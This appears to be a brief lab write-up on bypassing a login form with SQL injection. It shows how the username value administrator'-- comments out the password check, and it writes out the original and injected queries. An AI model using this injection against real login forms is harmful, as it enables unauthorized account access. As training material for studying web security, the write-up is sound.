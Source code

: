 ## SQL injection vulnerability allowing login bypass

- SQL Injection - Login functionality
- End Goal - perfrom SQLi attack and log in as the administrator user.

- Analysis -

  - ```sql
      SELECT firstname FROM users where username='admin' and password='admin'
    ```
  - We will try to ingore the rest of query after username so that query returns success without us trying to submit password.

  - ```sql
      SELECT firstname FROM users where username='administrator'--' and password='admin'
    ```
  - ```sql
      SELECT firstname FROM users where username='administrator'
    ```
